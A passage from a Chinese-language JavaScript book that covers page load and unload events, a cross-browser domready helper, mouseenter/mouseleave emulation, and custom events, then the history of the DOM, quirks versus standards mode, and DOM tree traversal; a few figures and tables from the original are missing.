`unload` 事件在文档销毁阶段触发。例如，当用户导航到另一个页面时，`unload` 事件将触发。请记住，在 `unload` 之后，你对 DOM 的更改权限非常有限。在 Internet Explorer 和 Firefox 中，你可以继续修改 DOM 甚至执行 Ajax 请求；然而，在 WebKit 中你无法进行这些操作。

绑定 `load` 和 `unload` 事件推荐的方法是使用你一直使用的事件绑定方式。这可以避免多个脚本想要绑定到同一个事件产生的问题：

```javascript
function startupScript(e) {
    // 当窗口加载时，执行此代码
    alert("Loaded!");
}

function teardownScript(e) {
    // 当窗口卸载时，执行此代码
}

if (document.attachEvent) {
    window.attachEvent("onload", startupScript);
    window.attachEvent("onunload", teardownScript);
} else {
    window.addEventListener("load", startupScript, false);
    window.addEventListener("unload", teardownScript, false);
}
```

正如我之前提到的，既然人们已经发现了 `domready` 事件，`load` 事件的使用就不再那么频繁了。`domready` 很有趣。首先，它并不是一个 `standard`（标准）事件——因为它没有被任何浏览器正式实现（至少没有以这个名字命名）。它是一个伪事件，你通过创建它来捕获文档已完成 `rendering`（渲染）但在任何图像或其他杂项完成下载 `before`（在之前）的时刻。

为什么这是一个重要的事件呢？这是你可以可靠地开始操作 DOM 的最早时机。如果你能在 `domready` 事件中开始初始化脚本，而不是 `load` 事件，你就有潜力为用户缩短几秒的页面加载时间，并创造视觉上更平滑的体验。

事实上，如果你尝试在 DOM 完成渲染之前对其进行更改，可能会导致严重的、违背的后果。在 Internet Explorer 中，这可能会触发灾难性的 HTML 解析错误，导致页面完全无法加载。在其他浏览器中，这可能意味着你将无法获得你想要的所有 DOM 节点。无论何种情况下，在页面至少有机会渲染之前，都没有理由开始操作它。

`domready` 事件的起源于 Mozilla。长期以来，他们有一个未记录的事件叫做 `DOMContentLoaded`，它最终被 Opera 和 WebKit (Safari) 采用。它被赋予了意义的昵号 `domready`，因为对于我们开发者来说，这实际上就是它的含义。要绑定 `DOMContentLoaded` 事件，你只需使用 `addEventListener()` 并像对待其他事件一样对待它即可：

```javascript
// 这在 Firefox 以及较新版本的 Opera 和 Webkit 中有效
document.addEventListener("DOMContentLoaded", myStartupScript, false);
```

遗憾的是，世界上最流行的浏览器 Internet Explorer 没有这样的事件。事实上，在不诉诸某种怪异的 hack（黑科技）的情况下，并没有真正整洁的方法来实现。我遇到的最佳解决方案来自 Diego Perini ([`javascript.nwbox.com`](http://javascript.nwbox.com))，并且现在已在 jQuery 等流行框架中使用。它涉及持续轮询 DOM 以获取 `doScroll()` 调用的结果。一旦该调用成功，意味着 DOM 已经解析并就绪。如果处理你的 `domready` 事件的函数命名为 `domReady()`，那么这个调用可能像这样：

```javascript
if (document.documentElement.doScroll) {
    try {
        document.documentElement.doScroll("left");
    } catch(e) {
        setTimeout(function() {domReady(fnRef)}, 0);
        return;
    }
    // 你的代码写在这里！
}
```

当这被放在函数内部时，它会持续调用自己，直到 DOM 就绪。让我们将其封装成一个统一的模块：

```javascript
function domReady(fnRef) {
    // 这部分在 Firefox、Mozilla 变体、较新 Opera 和较新 Webkit 中有效
    if (document.addEventListener) {
        document.addEventListener("DOMContentLoaded", fnRef, false);
    } else {
        if (document.documentElement.doScroll) {
            try {
                document.documentElement.doScroll("left");
            } catch(e) {
                setTimeout(function() {domReady(fnRef)}, 0);
                return;
            }
        } else {
            // 这里什么都不起作用，让我们绑定到 onLoad
            window.attachEvent("onload", fnRef);
            return;
        }
        // 我们的代码写在这里！
        fnRef.apply();
    }
}

domReady(function() {
    alert("The dom is ready!");
});
```

这个 `domready` 函数的变体诚然是简单的——它只处理单个函数引用。这样做是为了清晰起见。在本章稍后的“自定义事件”章节中，我将演示如何编写自己的自定义事件订阅和通知类，该类可以被调整以用于此目的。

# mouseenter 和 mouseleave 事件

Microsoft 引入了一组非常有用的鼠标事件：`mouseenter` 和 `mouseleave`。它们模拟了 `mouseover` 和 `mouseout` 事件，但忽略了冒泡。如果你正在构建涉及鼠标悬停效果的酷炫动态 HTML 组件，这将非常方便。想象一下你正在构建一个菜单组件。当用户鼠标悬停在标题上时，菜单出现。当用户鼠标移出菜单时，它就会消失。遗憾的是，如果你将 `mouseout` 事件绑定到父容器上，由于冒泡机制，你会发现当你鼠标移到该菜单的任何子元素时，`mouseout` 事件就会 `the instant`（瞬间）触发。困惑吗？请看图 12-5：

图 12-5


如所示，在这种场景下有两种基本的 mouseout 事件：一个是好的，一个是坏的。在 Internet Explorer 中，这非常容易解决。与其使用 `mouseout` 和 `mouseover`，不如使用 `mouseenter` 和 `mouseleave`，它们的作用相同，但没有这个烦人的副作用。遗憾的是，由于这些是非标准事件，它们在其他浏览器中并不支持。坦率地说，在 W3C 浏览器中可以通过模拟这些事件来解决这个问题。这涉及到向原始目标传递引用，例如：

```javascript
theDiv.addEventListener("mouseover", function(el) {
    return function(e) {
        hoverElement(e, el)
    }
}, true);
```

一旦你在事件处理程序中实现了这一点，就可以检查 `relatedTarget` 是否是目标的祖先。如果 `is`，则不触发事件。如果不是，尽管触发。请看以下内容：

```html
<head>
<body>
<div id="div0" style="padding:30px; border:1px solid green;">
<div id="div1" style="padding:30px; border:1px solid black;" onclick="alert('f')">Hello div1</div>
<div id="div2" style="padding:30px; border:1px dotted grey;">Hello div2</div>
<div id="div3" style="padding:30px; border:1px solid grey;">Hello div3</div>
</div>
</body>
</html>
<script type="text/javascript">
function hoverElement(e, oTarget) {
    var isChildOf = function(pNode, cNode) {
        if (pNode === cNode) {
            return true;
        }
        while (cNode && cNode !== pNode) {
            cNode = cNode.parentNode;
        }
        return cNode === pNode;
    };
    var target = e.srcElement || e.target;
    if (!oTarget) {
        oTarget = target;
    }
    var relTarg = e.relatedTarget || e.toElement;
    if (document.attachEvent || (!isChildOf(oTarget, relTarg))) {
        alert("Enter!");
    }
}

function unHoverElement(e, oTarget) {
    // 逻辑类似于 hoverElement
}

var theDiv = document.getElementById('div1');
if (document.attachEvent) {
    theDiv.attachEvent("onmouseenter", hoverElement);
    theDiv.attachEvent("onmouseleave", unHoverElement);
} else {
    theDiv.addEventListener("mouseover", function(el) {
        return function(e) {
            hoverElement(e, el)
        }
    }, true);
    theDiv.addEventListener("mouseout", function(el) {
        return function(e) {
            unHoverElement(e, el)
        }
    }, true);
}
</script>
```

当 IE 支持时，我们在这里使用原生的 `mouseleave` 事件。否则，你将依赖 `mouseout`，但在执行事件处理代码*之前*，要检查 `currentTarget` 是否是原始目标的子元素。页面顶部的 HTML 是一组嵌套的 `DIV`，一个套一个一个。每当鼠标悬停在内部的某一个 `DIV` 上时，我们都会从父级 `DIV` 移*出*，并触发事件。本文档和触发的 `alert()` 可以在图 12-6 中看到。

图 12-6


# 事件兼容性

有很多事件，其中某些仅由一个浏览器支持。这没关系，因为*某些*私有事件是非常棒的主意，已经通过 JavaScript 框架跨浏览器实现（例如 `mouseenter`、`mouseleave` 和 `DOMContentLoaded`）。下表解决了一些重要事件的浏览器兼容性：


关于上表的说明如下：

1. 这在 Safari 3.1 (Windows) 中部分实现。
2. 在 Opera 和 Safari 中，`blur` 在超链接上的触发是不一致的。在 iPhone 上，当用户切换浏览器窗口或关闭浏览器时，`blur` 事件不会触发。
3. 在 Internet Explorer 中，它在表单的复选框或单选按钮不会正确触发。
4. 在这些浏览器中，通过 `innerHTML` 实现的更改后，事件不会触发。
5. 在 Internet Explorer 中，`DOMMouseScroll` 与 `mousewheel` 相同。
6. 在 iPhone 上，`mousewheel` 只有当 `textareas` 和 `DIVs` 等可滚动元素滚动时才会触发，当文档本身滚动时不触发。
7. 在 Opera 和 Safari 中，链接不支持可靠的 `focus` 和 `blur`。在 iPhone 上，当窗口获得焦点时不会触发该事件。
8. 在 Safari 中，当你按住按键时，`keydown` 事件不会像预期那样对每个键重复。
9. 在 iPhone 上，`mousemove` 事件仅在用户将焦点移动到特定元素之前在 `mouseover` 之前触发。当然，因为没有移动的光标，它无法连续触发。

# 自定义事件

到此时，你已经了解了关于 JavaScript 原生事件所需要的所有知识。如果你想为你的应用程序创建一个*自己的*事件系统怎么办？例如，如果你正在构建一个组件，并想要创建开发者可以订阅的特殊事件——像 `tabChange` 或 `onInitialize` 这样的事件。遗憾的是，语言本身没有内置用于创建此类*自定义*事件的功能。然而，利用你已经了解的对象的知识，构建你自己的 `Event` 类来完成这一任务是一件相当简单的事情。

一个自定义事件类应该具备四个基本特性：

* 一种订阅自定义事件的方法。
* 一种取消订阅自定义事件的方法。
* 一种为事件定义*目标*并传递某种自定义事件对象的方法。
* 一种触发事件的方法。

看看解决此问题的一种可能的方案：

```javascript
var Event = function(eventName) {
    // 记录事件名称
    this.eventName = eventName;
    // 事件监听器数组
    var eventListeners = [];
    // 提供一种订阅事件的方法
    this.subscribe = function(fn) {
        eventListeners[eventListeners.length] = fn;
    };
    // 提供取消订阅事件的方法
    this.unsubscribe = function(fn) {
        for (var i = 0; i < eventListeners.length; i++)
            if (eventListeners[i] == fn)
                eventListeners[i] = null;
    };
    // 触发事件
    this.fire = function(sender, eventArgs) {
        this.eventName = eventName;
        for (var i = 0; i < eventListeners.length; i++)
            if (eventListeners[i])
                eventListeners[i](sender, eventArgs);
    };
};
```

将其拆解为各个部分，你会看到虽然简单但功能完整。首先，`Event` 对象是一个你可以用它创建实例的构造函数。当你这样做时，你可以选择为事件*命名*，尽管这并不是必须的。让我们为你的程序创建一个虚构事件：`var initialize = new Event("initialize");`

接下来你想做的是绑定一些监听器。在内部，监听器表示在 `eventListeners[]` 中。你每次调用 `subscribe()`，监听器就会被添加到数组中。这样你就可以为任何事件拥有任意数量的事件监听器——这才是正确的做法。现在让我们绑定一些监听器：

```javascript
function listenerA(sender, eventArgs) {
    alert("Listener A was triggered. " + eventArgs.info);
}

function listenerB(sender, eventArgs) {
    alert("Listener B was triggered. " + eventArgs.info);
}

initialize.subscribe(listenerA);
initialize.subscribe(listenerB);
```

我为每个监听器允许了两个参数：`sender` 和 `eventArgs`。这是任意的，但它让你能做两件事。当你最终触发事件时，你可以将所需的“语境”分配给 `sender`。例如，你可以传递一个指向 DOM 节点或程序其他部分的引用，以便在监听器代码中方便访问。第二个参数 `eventArgs` 代表你可能想要在监听器函数中使用的任意参数集合。

除了 `subscribe()` 函数外，我还提供了 `unsubscribe()`。通过向 `unsubscribe()` 传递同一个事件监听器的引用，你可以遍历 `eventListeners[]` 数组以检查它是否存在并将其删除。不过，我现在不打算费心于此。

现在你可以触发事件了。要做到这一点，你使用我们 `Event` 实例上的 `fire()` 方法。当你调用 `fire()` 时，你可以通过 `sender` 传递事件上下文（如果适用），并通过 `eventArgs` 传递一个包含参数的任意对象：

```javascript
initialize.fire(window, { info: 'Success!' });
```

当这种情况发生时，`fire()` 方法会遍历 `eventListeners[]`，按顺序执行每个函数引用。`listenerA()` 和 `listenerB()` 都会被触发，你会在屏幕上看到两个警框。类似的系统也可以用于你的应用程序，以提供灵活的自定义事件绑定。

本章介绍了 JavaScript 事件的概念。具体来说，你学习了：

- 你需要处理三种事件模型：传统模型（traditional model）、微软模型（Microsoft model）以及 `W3C` 模型（被所有非 Internet Explorer 浏览器使用）。
- 绑定事件的现代首选方式是使用事件监听器。你学习了如何在微软模型和 `W3C` 模型中实现这一操作。
- 非侵入式 JavaScript（Unobtrusive JavaScript）是一种设计哲学，其目的是提高那些因各种原因不支持 JavaScript 的浏览器的“优雅降级”能力，并创建具有可扩展性和健壮性的应用程序。
- 你可以在两种模型中通过它们各自的事件初始化器来模拟事件。你可以这样做来触发绑定到原生 DOM 事件的事件监听器。
- 你学习了如何捕获击键事件。
- 你学习了如何获取鼠标位置，并考虑了微软事件模型的缺陷。
- `domready` 和 `load` 事件用于在网页加载时注入 JavaScript。
- `unload` 事件用于在页面切换期间注入 JavaScript。
- 在嵌入的 DOM 元素结构上捕获 `mouseout` 事件可能是复杂的。你查看了一种解决方案，它结合了原生 IE `mouseleave` 事件和 `W3C` 事件模型属性。
- 你可以使用 JavaScript 对象和事件监听器设计范式轻松创建自定义事件。

在第 13 章中，我将正式介绍文档对象模型。我们将涵盖 DOM 的结构，以及你如何查询并修改它以影响网页的布局。

# 13 文档对象模型

当你考虑到面向对象设计原则在多大程度上已植入 JavaScript 语言时，网页本身在内存中的表示方式大不相同这并不令人意外。`文档对象模型`（`DOM`）是一组很大程度上独立于厂商的对象和 API，用于表示 HTML 和（你可能不相信）XML 文档。`DOM` 是你访问网页内容的门户——也是让你的页面通过 JavaScript 活跃的关键。

`DOM` 还是极其详尽的资源，你可以从中确定关于网页内容和布局的任何信息。页面上的每一个元素在模型中都有描述，包括表格、表单和文本。还可以访问关于这些元素的非常详细的信息，包括对象的样式、节点的大小和位置、元素上是否有滚动条、超链接指向何处等。它甚至提供了一个复杂的事件模型（你已经看过了），让你为页面添加一层交互性——使它们不再仅仅是静态的画布。

我已经向你介绍了 `DOM` 的许多方面，包括文档对象、`DOM` 节点、元素 ID 等等。例如，你已经查看了事件如何让你触及页面上交互的关键时刻。现在，你将完成对如何查询文档、导航和修改文档的理解。你还将学习一些非常实用的非标准特性。不过，首先我将简单介绍 `DOM` 的历史。

# DOM 的历史

当微软和网景（Netscape）开始浏览器脚本与 HTML 的“联姻”时，他们面临着一项极其艰巨的任务。为 HTML 文档的“底层”表示提供程序化接口的任务，看起来似乎是复杂且无先例可循的。由于缺乏正式的标准机构（如 `W3C`）来提供帮助，这意味着会产生很多错误，一些疯狂的想法也会随之通过。如果你一直在跟读这本书，那么发现不同的浏览器厂商在实现其 `DOM` 方面仍然存在一些不协调之处，这并不令人意外。你可以将这些差异追溯到支持 JavaScript 的第一批浏览器，以及第一个浏览器对象模型的发明。

## 遗留对象模型

Netscape 2 发布了第一个版本的 JavaScript，同时也提供了第一个 `DOM`。它展示了这种早期对象模型的视觉表示，以及设计现代 `DOM` 的基础。这种设计提供了一个分级节点集，从 `window` 对象开始，向内包含了 `document` 对象、一个 `forms` 集合、链接集合和 `anchors` 集合。在 `forms` 集合内部，有多种代表表单控件（文本框、单选按钮等）的节点类型。页面上只有少数元素由对象表示，并可以从脚本读取或操作。这使得开发者在表单提交到服务器之前，几乎只能做验证表单的工作。当微软发布他们的第一个 JScript 浏览器 Internet Explorer 3 时，他们基本上是复制了 Netscape 的 `DOM` 功能而没有创新。这是这两个巨头在 JavaScript 发展方向上进行短暂隐性合作的开始。直到今天，所有提供 DOM 的浏览器都支持第一代 `DOM` 的原始功能。

## 基础模型加图片


# DOM 发展史

## 早期 DOM

在微软引入 IE 3 不久之后，网景推出了 Navigator 3。此时 `DOM` 最重要的新增是 `images` 集合以及对 `` 标签 `src` 属性进行脚本编写的能力。这在结合超链接时实现了非常原始的鼠标悬停效果。微软在 Mac 版 IE 3.01 中紧随其后，支持相同的功能，但 Windows 上的 IE 3 仍然不支持这一功能。这标志着 Web 开发中长期存在的跨浏览器烦恼历史的开始。等到 IE 4 发布时，微软和网景在各自 `DOM` 提供的整体功能集上再次达到了同步。

## Navigator 4 扩展

随着 Navigator 4，网景再次重写了浏览器脚本的规则。他们发明了一种新的事件模型（包含了事件对象的首次雏形），以及事件冒泡（`bubbling`）概念，而这并未被微软采纳。他们还在 `window` 级别引入了新功能，允许开发者随意移动和调整窗口大小。现在可以完全通过脚本让浏览器窗口全屏。也许最大的改进是创建了名为 `layers`（层）的功能。这些是 `iFrame` 的早期雏形，但能够在页面上任意定位，甚至可以在重叠方向上定位。每个层都有自己的文档元素，并可以加载外部网页。遗憾的是网景的是，`W3C` 从未将层批准为 HTML 规范的一部分，这些功能也没有被延续到 Mozilla 中或被微软采纳。

## Internet Explorer 4 扩展

尽管起步缓慢，但 Internet Explorer 4（在 Navigator 4 发布后不久推出）所引入的重要创新在很大程度上归功于微软。这是那类跨越式事件之一，类似于 Ajax 的引入，将浏览器脚本提升到了新的水平。首先，它们开始在对象模型中表示 `entire` 文档。所有的 HTML 节点都可以通过 `DOM` 访问，并且可以通过脚本用 `CSS` 对元素进行样式设置。微软引入了几个新集合，包括 `document.all`，它是一个包含页面上每个元素的数组。可以通过它们的 ID 访问这些集合，这使得每个元素变成一个 `scriptable` 对象。如果你有一个 ID 为 `myForm` 的表单字段，可以像这样通过 `all` 对象访问它：

```
document.all.myForm
```

时至今日，这种语法在 IE 中仍然可用。

除了 `styleSheets` 集合外，IE 4 还允许开发者直接在对象上设置样式属性。它还允许开发者通过四个新的对象属性修改 `DOM` 的 `contents`：`innerHTML`、`outerHTML`、`innerText` 和 `outerText`。这一单项功能为想要设计真正 `dynamic` HTML 文档的开发者开启了无限可能。开发者现在只需通过输入即可重写 `DOM` 的部分：

```
document.all.myTableId.outerHTML="<p>Now I'm a paragraph instead of a table!</p>"
```

IE4 的另一个重要创新（至少在 32 位版本中）是引入了 CSS 过滤器样式，这是一种应用于 `DOM` 元素的多媒体效果。这让开发者能够在他们的网页上添加如模糊、透明度和 32 位图像等效果。由于过滤器与微软的技术栈（包括其 `GDI APIs`）紧密相关，因此它们从未被正式批准为 `W3C` 标准的一部分。

该版本还引入了至今仍在使用于 Internet Explorer 中的现代事件模型。对开发者来说遗憾的是，它与 Netscape 模型（你将在第 12 章中学习到）完全不同。除了事件 `APIs` 和事件对象的差异外，另一个关键区别是事件只向一个方向——向上进行冒泡。由于微软的事件模型没有 `capture phase`（捕获阶段），因此（至今也是如此）除非为每个元素附加事件处理器，否则没有办法保证捕获 `DOM` 中的全局事件。

## Internet Explorer 5 扩展

虽然发布程度没有那么剧，但 Internet Explorer 5 确实让浏览器向符合标准的 `DOM` 更进了一步。此时，一个名为 `W3C` 的国际标准机构已经开始为提供 `HTML`、`CSS` 和 `DOM` 功能的浏览器定义正式预期。微软已经对这些 `APIs` 应该什么样下了注，但事实的是，`W3C` 并不同意。然而，在 IE5 中，他们对对象模型进行了一些改进以更符合这些标准。

当时的其他关键新增包括动态 HTML `behaviors`，它允许开发者将某些 JavaScript 操作移动到可以重复使用的外部模块中。添加的另一个功能是支持一种用于 HTML 和 JavaScript 应用程序的桌面应用模式，称为 `HTML Applications` (`HTAs`)。这赋予了开发者更高的权限来执行诸如移除浏览器外壳的操作，从而提供用户正在运行原生软件的错觉。遗憾的是，这些功能既没有被采用也没有被广泛使用，并在很大程度上被遗忘了。

Internet Explorer 和 `W3C` `DOMs` 之间的关键区别之一是它们表示文本和空白节点的方式。在 IE 中，空白在很大程度上被忽略，但 `W3C` `DOM` 实现为空白创建特殊的文本节点。通常，你会发现文档中的节点数量取决于在哪个浏览器中渲染该文档。

# W3C DOM

到 20 世纪 90 年代后期，微软和 Netscape 已经在共同制定 JavaScript `language` 标准方面取得了一些成功。现在是时候坐下来为网络编程的其他方面确定路线了，即 `CSS`、`HTML` 和 `DOM`。`W3C-DOM` 工作组负责制定一种适用于 `HTML` 和 `XML` 文档的规范。两者都是任何名称节点的层次结构，并且在处理它们时具有类似的用例。

设计 `DOM` 规范的任务被分为两个部分。规范的第一部分称为 `Core DOM`（核心 DOM），描述了适用于 `HTML` 和 `XML` 文档的通用功能和能力。规范的第二部分涉及 `HTML` 的特定需求。这部分继承了 `Core DOM` 的所有功能，并带有额外的描述，以引入最早此类浏览器中引入的 `DOM` 原始功能。

`W3C-DOM` 规范并没有描述任何已存在的 `DOM API`。它是一个完全全新的创造，与微软或 Netscape 尚未产生的任何东西都不同。尽管在中间的几年里，微软一直努力更符合最新规范，但这是一个非常缓慢的过程，他们似乎并不急于加速。与此同时，`W3C` 发布了规范的多次更新，以反映网络不断演变的需求。每次更新都被称为规范的一个新 `level`（级别）。Level 0 虽然没有正式发布，但指的是由 Netscape 定义并由微软采纳的原始未文档的 `DOM`。DOM Level 1 是第一份正式规范。Level 2 引入了现代事件模型以及检查文档层次结构的方法。其他新功能包括 `XML` 命名空间、样式表和文本范围。

最近的规范是 Level 3。它引入了键盘事件、`XPath` 以及将文档序列化为 `XML` 的能力。

任何供应商（微软、Mozilla 或其他）都不可能仅限于生产单一的、`standards-compliant` 软件。你在任何浏览器中都会依赖的某些功能是 `non-standard` 且非常有用的。同样，微软也不可能因为对向后兼容性的担心而废弃其许多与标准发生 `conflict` 的专有功能。尽管网络有时移动很快，但总会有那部分固执拒绝升级的用户。由于缺乏支持，任何浏览器的开发者界面创新都需要多年时间才能真正有用。

# 文档类型

当微软和 Mozilla 开始将他们多年来所做出的某些 `CSS` 和 `DOM` 实现决策与已发布的 `W3C` 标准进行调和时，他们意识到，无法按照标准描述的方式来实现这些内容，否则将完全破坏使用之前模型构建的应用程序。一种允许他们不受阻碍地追求统一模型并保护向后兼容性的权宜之计，是让开发者在文档顶部显式地设置 `<!DOCTYPE>`。这种技术被称为 `DOCTYPE switching`（文档类型切换），它正式了 `standards mode`（标准模式）和兼容模式（`quirks mode`，怪异模式）的概念。Internet Explorer 6+（Mac 版 IE 5）以及所有基于 Mozilla 的浏览器都识别标准模式和怪异模式的区别。`DOCTYPE switching` 非常简单。当浏览器在文档最顶部遇到具有良好文档类型定义的文档时，它会使用该定义，但也选择使用标准模式的 `rules`（规则）而不是怪异规则来渲染页面。有效的 `DOCTYPEs` 包括：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
```

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
```

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Frameset//EN" "http://www.w3.org/TR/html4/frameset.dtd">
```

遗憾的是，各种浏览器实现的“规则”往往随着版本的更新而变化。Internet Explorer 7 破坏了大量使用文档类型定义（DTD）的网站，因为这些开发者假设通过使用 DTD（Document Type Definition）实际上为应用程序的外观和感受提供了“未来性保障”。遗憾的是，除非将应用程序编写在怪异模式（quirks mode）中，否则没有办法做到这一点。在 Internet Explorer 8 中，微软引入了一个新概念：版本目标（version targeting）。除了定义文档类型外，开发者还可以指定特定的浏览器版本，未来的浏览器将根据该版本来选择页面的渲染规则。这涉及到使用 `http-equiv` 属性设置 `<META>` 标签，如下方的假设性示例：

```html
<meta http-equiv="X-UA-Compatible" content="IE=7;FF=3;OtherUA=4" />
```

目前此功能仅在 Internet Explorer 8 中有效，但这是一个非常值得关注的观点。未来，其他厂商可能会决定也实现这一特性。

# 怪异模式下发生了什么

尽管不同浏览器之间的差异有所不同，且怪异模式没有正式的规范（这也是名称来源），但在使用怪异模式设计页面时，已经注意到以下行为：

- 百分比高度（例如 `<div style="height:50%"></div>`）是以可用空间作为参考点应用的——即使封装对象正在使用自动高度（`auto-height`）。在标准模式下，只有当封装元素应用了特定的高度值时，它才会生效。
- 使用 `width` 和 `height` CSS 属性时会应用不同的盒模型，指定的是整个元素框（包括内边距和边框）的尺寸，而不仅仅是元素的内容。
- 在 Mozilla 中，表单在标准模式下缺少下边距，但在 IE 的两种模式下都有下边距。
- 溢出（`overflow`）行为的处理方式不同。在怪异模式下，使用 `overflow:visible`（CSS）时，当内容过大，绝对尺寸容器框会扩展。在标准模式下，内容会超出容器，但容器本身不会调整大小。
- 非块级内联元素（如 `<span>` 标签）受 `width` 和 `height` 属性的影响（在标准模式下则不受影响）。
- `img` 和 `input type="image"` 元素忽略 CSS 图片内边距（Image padding）。
- 在 Internet Explorer 中，怪异模式不支持固定定位（`fixed positioning`）。
- 对于应用了 `float` 的图像，默认的水平边距为三像素而不是零。在非 IE 浏览器中，该边距仅应用于浮动图像的“内边缘”。
- 当使用 CSS 关键字“xx-small, x-small, small, medium, x-large, xx-large”时，怪异模式下的字体大小通常较大。
- 格式不正确的 CSS 属性值可以根据“最佳猜测”进行解释。例如，`padding:10` 可以被解释为 `padding:10px`，以此类推。类名和标识选择器也是如此。
- 在怪异模式下，字体不会从包含元素级联到表格中。
- IE 中许多 CSS 新特性仅在标准模式下受支持。
- 在 IE 怪异模式下，块级元素之间的空白可能是显著的，而在标准模式下则可能不是（例如标签之间）。

## 检查 DOCTYPE

大多数浏览器（包括 Internet Explorer、Mozilla、Safari 和 Opera）都支持 `document.compatMode` 检查，用以报告浏览器是处于怪异模式还是标准模式。在现代浏览器中，`document` 在标准模式下将填充字符串 `"CSS1Compat"`，在怪异模式下填充为 `"BackCompat"`。Opera 7 则使用字符串 `"QuirksMode"` 代替。用一行简单的 JavaScript 代码来表示这一点，你可以这样写：

```javascript
var isQuirks = (document.compatMode == "BackCompat" || document.compatMode == "QuirksMode");
```

# 文档树

在 DOM Level 0 或极早期的对象模型中，`document` 从对象关系的角度来看是一个非常扁平的结构。即使在最近的 IE 4，DOM 中的所有元素都可以通过包含页面所有元素的扁平集合进行访问。尽管数据在页面上渲染时存在隐式的层级结构，但这种树形结构直到后续版本才构建到文档对象模型中。事实上，思考文档最好的方式是把它想象成一棵树。页面上的每个节点都包含在另一个节点内部，一直向上直到文档根节点，即文档对象（根据 W3C 标准为 `documentElement`）。你可以使用内置 API 在此结构中上下导航，并利用这种层级关系计算屏幕位置等。考虑一个包含列表的简单 HTML 文档。该页面的文本版本（当然查看源码）可能如下：

```html
<html>
  <head>
    <title>My List</title>
  </head>
  <body>
    <h1 class="myHeading">My List!</h1>
    <ul id="myUnorderedList">
      <li>Item 1</li>
      <li>Item 2</li>
      <li>Item 3</li>
      <li>Item 4</li>
    </ul>
  </body>
</html>
```

当浏览器遇到此页面时，它将通过创建一个文档元素来启动 DOM，该元素将包含两个节点：`html` 和 `body`，如之前的结构所示。它会根据 HTML 中的父子关系填充一组层级节点。例如，在 `body` 下，`ul` 元素（无序列表）属于 `body`，而四个 `li` 属于 `ul`。`body` 和 `li` 之间没有直接关系，但你可以通过先识别 `ul` 来获取 `li`。

如果你尝试将之前的结构以 DOM 对象格式表示（每个节点占一行），结果可能如下：

```
document
+--html
    +--head
      +--title
          +--"My List"
    +--body
      +--h1 class="myHeading"
          +--"My List!"
      +--ul id="myUnorderedList"
          +--li
              +--"Item 1"
          +--li
              +--"Item 2"
          +--li
              +--"Item 3"
          +--li
              +--"Item 4"
```

文档的层级性质通过父子节点反映在 W3C 和微软提供的 API 中，一旦你拥有某个节点的引用，就可以利用这些关系上下移动。

# 节点类型

根据 W3C 规范 Level 2，HTML 或 XML 文档中有 12 种节点类型。然而，其中只有 7 种与 HTML 特有。实际上，只有三种被频繁使用：文档（`document`）、元素（`element`）和文本（`text`）。大多数浏览器（包括 Internet Explorer 5+、Mozilla (Firefox)、Safari 和 Opera）都实现了这三种，而只有 Mozilla 单独实现了所有类型。Internet Explorer 6 实现了大部分类型（除一种），而 Safari 实现了所有类型（除两种）。

# 节点属性

节点也有许多属性。那些不是方法的属性要么包含了关于节点的特定细节，要么包含了对树中附近节点的引用。

在尝试确定节点的 `type` 时，最好的方法可能是查看 `nodeType` 属性。在 IE 以外的几个浏览器（实现 DOM Level 2）中，有许多数值常量可以用来进行比较，这些常量映射到每个节点编号。这使得代码更易读，但实际上并非必须。请参阅上表获取节点类型数字列表。该表中的其他几个属性对于导航 DOM 至关重要。像 `parentNode` 和 `childNodes` 这样的属性提供了对当前节点上方和下方级的访问，让你能够从特定的引用点在树中上下移动。

# 节点方法

除了属性外，节点还拥有许多方法。最常用的如表所示。

# 实现对象 (implementation Object)

在 DOM Level 1 中，文档对象定义了一个名为 `implementation` 的属性。该对象只有一个方法：`hasFeature(moduleName, moduleVersion)`，用于确定特定功能是否被此 DOM 支持。实现对象被大多数浏览器支持，包括 CH1+、FF1+、IE6+、NN6+、O7+ 和 SF1+。它会告诉你特定浏览器中支持哪些 DOM 部分。然而，你必须传递正确的模块名称和有效的版本。下表解释了 `moduleName` 和 `moduleVersion` 的接受值：

如果你想检查浏览器是否支持 CSS2 规范，你可能会编写类似下面的表达式：

```javascript
var CSS2Support = document.implementation.hasFeature("CSS2", "2.0");
```

这将返回一个布尔值。注意模块名需要正确的大小写。

# 遍历 DOM

如你现在所知，DOM 是一种关系结构，每个节点的属性都指向树中附近的其他节点。在树的顶部，你有文档元素（`document element`），它是 `HTMLDocument` 的实例。要获取网页 `<HTML>` 属性的引用，你需要引用 `document.documentElement` 属性。你也可以通过任何元素使用 `ownerDocument.documentElement` 属性获取该节点的引用：

```javascript
// 如果 myElement 与 window.document 位于同一个文档中，则为 true
myElement.ownerDocument == document
myElement.ownerDocument.documentElement == document.documentElement
```

在 Internet Explorer 5 和 5.5 中，`document.documentElement` 属性实际上指向 `<body>` 标签而不是 `<html>` 节点。这在 IE 6 中得到了纠正，并在所有现代浏览器中都是如此。在查看文档遍历之前，让我们先用一个简单的 HTML 文档作为示例：

```html
<html>
    <head>
        <title>My List</title>
    </head>
    <body>
        <h1 class="myHeading">My List!</h1>
        <ul id="myUnorderedList">
            <li>Item 1</li>
            <li>Item 2</li>
            <li>Item 3</li>
            <li>Item 4</li>
        </ul>
    </body>
</html>
```

一旦你拥有了 `<html>` 节点的引用，你就必须开始使用 DOM 节点属性来访问其下方的任何内容。有几种方法可以获取当前节点下方节点的引用。你已经见过这些属性了：`firstChild`、`lastChild` 和 `childNodes[]`。由于 HTML 节点只有两个元素（`<head>` 和 `<body>`），`firstChild` 和 `lastChild` 将很方便地检索到这些元素：

```javascript
var head = document.documentElement.firstChild;
var body = document.documentElement.lastChild;
```

某些浏览器插件（如 Firefox 的 Firebug）会向 `document.documentElement` 注入额外的元素。在这种情况下，`lastChild` 会返回这些元素之一。

另一种方法是使用 `childNodes[]` 集合——一个包含直接位于当前节点下方所有元素的数组。假设 `<head>` 是第一个元素而 `<body>` 是第二个，你可以编写以下代码来检索它们：

```javascript
head = document.documentElement.childNodes[0];
body = document.documentElement.childNodes[1];
```

由于 `childNodes` 是一个类数组对象，它也有一个 `length` 属性。获取子节点的数量就像访问 `childNodes.length` 一样简单。然而，它不是真正的数组，所以不要尝试使用像普通数组那样的 `push()` 方法——它实际上是一个被称为 `NodeList` 的对象。该对象支持一个方法和一个属性：

